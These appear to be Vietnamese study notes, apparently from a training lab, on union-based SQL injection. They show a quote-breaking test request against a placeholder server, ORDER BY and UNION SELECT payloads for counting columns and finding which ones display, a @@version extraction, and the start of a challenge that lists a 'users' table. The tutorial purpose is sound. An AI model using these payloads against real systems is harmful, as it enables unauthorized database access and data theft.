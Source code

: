     ```url
    http://SERVER_IP:PORT/search.php?port_code=cn'
    ```

- Kết quả xuất hiện lỗi, chứng tỏ trang web dễ bị tấn công SQL Injection. Đây là một trường hợp lý tưởng để sử dụng Union-based Injection.

### Detect number of columns

- Trước khi khai thác, cần xác định số cột trong bảng bằng một trong hai cách:

1. **Using ORDER BY**:

    - Chèn lần lượt `order by 1`, `order by 2`,... cho đến khi gặp lỗi.

    ```sql
    ' order by 1-- -
    ' order by 2-- -
    ```

    - Khi lệnh `order by 5` trả về lỗi, điều đó nghĩa là bảng có 4 cột.

2. **Using UNION**:

    - Chèn thử một câu truy vấn Union với số lượng cột khác nhau.

    ```sql
    cn' UNION select 1,2,3-- 
    ```

    - Nếu lệnh trên lỗi, thử với 4 cột:
    ```sql
    cn' UNION select 1,2,3,4-- 
    ```

    - Khi kết quả trả về thành công, nghĩa là bảng có 4 cột.

### Location of Injection

- Một truy vấn có thể trả về nhiều cột, nhưng không phải tất cả đều được hiển thị. Cần xác định cột nào in kết quả trên trang.

    - Ví dụ: Với truy vấn Union trả về `1, 2, 3, 4`, trang chỉ hiển thị `2, 3, 4`.
    - Để kiểm tra, sử dụng truy vấn sau và thay đổi nội dung cột:

    ```sql
    cn' UNION select 1,@@version,3,4-- -
    ```

    - Nếu cột thứ 2 hiển thị, kết quả sẽ in ra phiên bản cơ sở dữ liệu.


# Chall
## Sandbox
- SQL check từng bảng coi sao.
```bash
show tables;
```
- Ta thấy có 2 tables là `news` và `users` vô coi thử có gì thôi.
